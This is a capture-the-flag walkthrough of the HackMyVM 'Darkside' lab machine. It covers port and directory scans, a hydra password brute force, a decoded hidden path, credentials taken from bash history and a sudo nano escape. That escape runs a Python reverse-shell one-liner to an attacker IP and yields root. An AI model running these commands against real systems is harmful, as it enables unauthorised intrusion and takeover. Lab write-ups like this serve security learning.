

## 🖥️ Machine Information

<div class="hmv-info-card">
  <div class="hmv-card-header">
    <div class="htb-header-left">
      
      <div>
        <h3 class="hmv-machine-title">Darkside</h3>
        <span style="font-size: 0.85rem; color: var(--text-secondary);">Linux</span>
      </div>
    </div>
    <span class="hmv-diff-badge easy">EASY</span>
  </div>

  <div class="hmv-meta-row" style="grid-template-columns: repeat(4, 1fr);">
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Platform</span>
      <span class="hmv-meta-val orange">HackMyVM</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">OS</span>
      <span class="hmv-meta-val">🐧 Linux</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">Difficulty</span>
      <span class="hmv-meta-val">Easy</span>
    </div>
    <div class="hmv-meta-col">
      <span class="hmv-meta-label">IP Address</span>
      <span class="hmv-meta-val" style="font-family: monospace; font-size: 0.95rem;">192.168.56.107</span>
    </div>
  </div>
</div>

---

## 🧠 Attack Path Overview



> [!NOTE]
> This writeup details the complete attack path for the **Darkside** machine on the **HackMyVM** platform.

---

## 🔍 Phase 1: Reconnaissance & Enumeration

### 1. Host Discovery & Port Scanning
We scan the target using Nmap:

```bash
nmap -p- -sC -sV 192.168.56.107
```

#### Open Ports:
```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u2
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
```

### 2. Directory Scan
We enumerate web directories:

```text
[09:34:48] 301 -  317B  - /backup  ->  http://192.168.56.107/backup/
[09:35:02] 200 -  683B  - /index.php
```

### 3. Backup Directory Analysis
Accessing `/backup/vote.txt` reveals a list of usernames with a note about `kevin`:

```text
rijaba: Yes
xerosec: Yes
sml: No
cromiphi: No
gatogamer: No
chema: Yes
talleyrand: No
d3b0o: Yes

Since the result was a draw, we will let you enter the darkside, or at least temporarily, good luck kevin.
```

Usernames identified: `rijaba`, `xerosec`, `sml`, `cromiphi`, `gatogamer`, `chema`, `talleyrand`, `d3b0o`, `kevin`.

---

## 🚀 Phase 2: Foothold via Brute Force & Credential Chaining

### 1. HTTP Login Brute Force
We target `kevin` with `hydra` against the HTTP POST login form:

```bash
hydra -v -V -l kevin -P /usr/share/wordlists/rockyou.txt -I 192.168.56.107 \
  http-post-form "/:user=kevin&pass=^PASS^:invalid"
```

```text
[80][http-post-form] host: 192.168.56.107   login: kevin   password: iloveyou
```

Credentials: `kevin` : `iloveyou`

### 2. Multi-Stage Encoded Credential Discovery
After logging in, the portal returns an encoded string:

```text
kgr6F1pR4VLAZoFnvRSX1t4GAEqbbph6yYs3ZJw1tXjxZyWCC
```

Decoding with CyberChef Magic module reveals a two-stage encoding:
* **Base58** decode → `sfqekmgncutjhbypvxda.onion`

We try accessing this as a local path:
```
http://192.168.56.107/sfqekmgncutjhbypvxda.onion/
```

The page contains JavaScript that checks for a cookie value `side=darkside` before redirecting to a password file:

```javascript
var sideCookie = document.cookie.match(/(^|)side=([^;]+)/);
if (sideCookie && sideCookie[2] === 'darkside') {
    window.location.href = 'hwvhysntovtanj.password';
}
```

We set the cookie `side=darkside` and are redirected to:
```
http://192.168.56.107/sfqekmgncutjhbypvxda.onion/hwvhysntovtanj.password
```

This file contains SSH credentials:
```text
kevin:ILoveCalisthenics
```

### 3. SSH Login as kevin
```bash
ssh kevin@192.168.56.107
```

We retrieve the user flag:
```bash
cat /home/kevin/user.txt
```
Output: `UnbelievableHumble`

---

## ⚡ Phase 3: Lateral Movement & Privilege Escalation

### 1. Bash History Leak — kevin → rijaba
We read kevin's command history file:

```bash
cat /home/kevin/.history
```

```text
ls -al
hostname -I
echo "Congratulations on the OSCP Xerosec"
top
ps -faux
su rijaba
ILoveJabita
ls /home/rijaba
```

The file reveals credentials for user `rijaba`: `ILoveJabita`.

### 2. SSH Login as rijaba
```bash
ssh rijaba@192.168.56.107
```

We check sudo privileges:

```bash
sudo -l
```
```text
User rijaba may run the following commands on darkside:
    (root) NOPASSWD: /usr/bin/nano
```

### 3. Root Shell via Nano CTRL+T
We launch nano as root:
```bash
sudo /usr/bin/nano
```

Inside nano, we press `Ctrl+T` to trigger the spell-checker command prompt, which allows us to execute arbitrary commands. We enter a Python reverse shell:

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.102",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

We receive a root shell on our listener:
```text
Connection received on 192.168.56.107
id
uid=0(root) gid=0(root) groups=0(root)
```

We retrieve the root flag:
```bash
cat /root/root.txt
```
Output: `youcametothedarkside`
